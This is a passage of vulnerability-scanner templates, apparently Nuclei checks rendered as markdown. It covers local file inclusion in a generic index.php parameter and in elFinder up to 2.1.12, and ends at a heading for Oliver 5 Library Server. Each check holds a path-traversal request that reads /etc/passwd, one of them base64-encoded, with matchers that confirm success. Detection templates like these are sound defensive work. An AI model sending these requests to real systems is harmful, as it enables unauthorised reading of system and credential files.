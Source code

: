 - {{BaseURL}}/index.php?id=50&file=../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# elFinder \<=2.1.12 - Local File Inclusion

## Description

- elFinder through 2.1.12 is vulnerable to local file inclusion via Connector.minimal.php in std42. This allows unauthenticated remote attackers to read, write, and browse files outside the configured document root. This is due to improper handling of absolute file paths.

- severity - high
- tags - lfi,elfinder

## Requests

### Step - 1

```
GET /php/connector.minimal.php?cmd=file&target=l1_Li8vLi4vLy4uLy8uLi8vLi4vLy4uLy8uLi9ldGMvcGFzc3dk&download=1 HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

```

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Oliver 5 Library Server \<8.00.008.053 - Local File Inclusion

